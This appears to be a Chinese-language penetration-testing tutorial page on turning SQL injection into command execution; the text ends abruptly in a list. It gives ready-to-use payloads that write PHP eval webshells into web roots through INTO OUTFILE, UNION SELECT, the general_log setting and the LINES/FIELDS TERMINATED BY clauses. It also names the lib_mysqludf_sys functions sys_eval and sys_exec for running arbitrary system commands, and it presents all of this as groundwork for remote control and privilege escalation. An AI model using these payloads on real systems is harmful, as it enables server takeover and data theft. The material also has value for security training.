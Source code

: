 ## [](#12-sql-%E6%B3%A8%E5%85%A5%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C)12 SQL 注入命令执行

### [](#121-sql-%E6%B3%A8%E5%85%A5%E5%86%99%E6%96%87%E4%BB%B6)12.1 SQL 注入写文件

通过 SQL 注入，直接写入 webshell 文件到服务器，通过 GET 方法或者 POST 方法提交并执行外部指令，为后续进一步远程控制，提权，创造条件。

注意

需要 mysql 用户在写入文件夹下有写入权限，即 `secure_file_priv` 为不为空。

技巧

当`secure_file_priv` 不为空时，可以使用 general\_log 写文件：

`set global general_log=on;`

`set global general_log_file='C:/phpStudy/WWW/789.php';`

`select '<?php eval($_POST['a']) ?>';`

#### [](#1211-union-select-%E5%90%8E%E5%86%99%E5%85%A5)12.1.1 union select 后写入

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select username, password from users where id="1" union select null,'<?php @eval($_REQUEST[1]);?>' into outfile '/var/www/html/cmd.php'<br>``` |

**注意**：在 windows 下的分隔符为 /（斜杠）。

#### [](#1212-%E8%A1%8C%E5%88%86%E9%9A%94%E7%AC%A6%E5%86%99%E5%85%A5)12.1.2 行分隔符写入

通过 select 语句查询的内容写入文件，也就是 into outfile‘C:/wamp64/www/work/webshell.php’这样写的原因，然后利用 lines terminated by 语句拼接 webshell 的内容。

lines terminated by 可以理解为「以每行终止的位置添加 xx 内容」。

利用 lines starting by 语句拼接 webshell 的内容。lines starting by 可以理解为「以每行开始的位置添加 xx 内容」。

利用 fields terminated by 语句拼接 webshell 的内容。fields terminated by 可以理解为「以每个字段的位置添加 xx 内容」。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```sql<br>// lines terminated by 写入<br>?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' lines terminated by '<?php phpinfo() ?>';<br><br>// lines starting by 写入<br>?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' lines starting by '<?php phpinfo() ?>';<br><br>// fields terminated by 写入<br>?id=1 into outfile 'C:/wamp64/www/work/webshell.php' fields terminated by '<?php phpinfo() ?>';<br><br>// COLUMNS terminated by 写入<br>?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' COLUMNS terminated by '<?php phpinfo() ?>';<br>``` |

### [](#122-%E7%94%A8%E6%88%B7%E8%87%AA%E5%AE%9A%E4%B9%89%E5%87%BD%E6%95%B0---udf)12.2 用户自定义函数 - UDF

还可以利用「用户自定义函数」的方式，即 User Defined Functions(UDF) 来执行命令。通过 lib\_mysqludf\_sys 提供的函数可以执行**系统命令**关键语句：

-   **sys\_eval()**，执行任意命令，并将输出返回
    
-   sys\_exec()，执行任意命令，并将返回码返回
    
-   sys\_get()，获取一个环节变量
    